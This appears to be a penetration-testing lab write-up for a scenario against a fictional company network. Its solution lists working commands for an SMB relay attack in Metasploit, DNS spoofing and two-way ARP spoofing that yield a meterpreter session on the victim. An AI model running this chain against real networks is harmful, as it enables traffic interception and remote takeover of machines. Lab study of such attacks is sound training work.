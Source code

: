 **Note:** Since the related lab of this topic is scenario based, the scenario will be written below:

### Scenario

You are hired by a small company to perform a security assessment. Your customer is **sportsfoo.com** and they want your help to test the security of their environment, according to the scope below:

**The assumptions of this security engagement are:**

1. You are going to do an internal penetration test, where you will be connected directly into their LAN network **172.16.5.0/24**. The scope in this test is only the **172.16.5.0/24** segment
    
2. You are in a production network, so you should not lock any user account by guessing their usernames and passwords
    

The following image represents the LAB environment:


![[Pasted image 20250216195037.png]]

---

### LAB Solution

We will use this MSF module: "exploit/windows/smb/smb_relay" and set SRVHOST and LHOST to our IP address. We also set the SMBHOST to our target machine IP then we run it.

We will create a file that will act as DNS for dns spoofing procedure: `echo "(our IP address) *.sportsfoo.com"> dns` This will point all requests for sportsfoo.com to our Kali Linux machine 

Then we do: `dnsspoof -i eht1 -f dns`


Now, for our arp-spoofing attack. First, we will allow our machine to act as a router, forwarding network packets between devices:`echo 1 > /proc/sys/net/ipv4/ip_forward`

Then will set the arp-spoof attack against the client machine: `arpspoof -i eth1 -t (client IP) (gateway IP)`

On another tab, we will set another arp-spoof but we will flip the client and the gateway IP addresses with each other: `arpspoof -i eth1 -t (gateway IP) (client IP)`

If we returned back to MSF, we find that we have a meterpreter session in the background.

